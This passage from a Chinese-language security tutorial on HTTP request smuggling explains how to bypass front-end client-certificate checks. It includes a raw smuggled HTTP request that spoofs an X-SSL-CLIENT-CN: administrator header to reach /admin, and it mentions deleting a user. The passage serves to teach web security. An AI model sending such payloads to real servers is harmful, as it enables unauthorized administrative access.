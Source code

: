 ![image-20240503104700545](images/17.png)



然后删除对应用户

## 绕过客户端

走私请求对前端是完全隐藏的，他们包含的任何请求头被发送到后端都不会被改变

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

在TLS握手过程中，服务器通过提供证书向客户端(通常是浏览器)验证自己，证书中包含他们的通用名称(CN)，该名称应该与他们注册的主机名相匹配，然后客户端可以使用它来验证他们正在与属于预期域的合法服务器进行对话，而部分站点则实现了双向认证，在这种认证方式下客户端也必须向服务器提供证书，客户端的CN通常是用户名等

这种情况下就需要提供和证书相同的CN到服务端
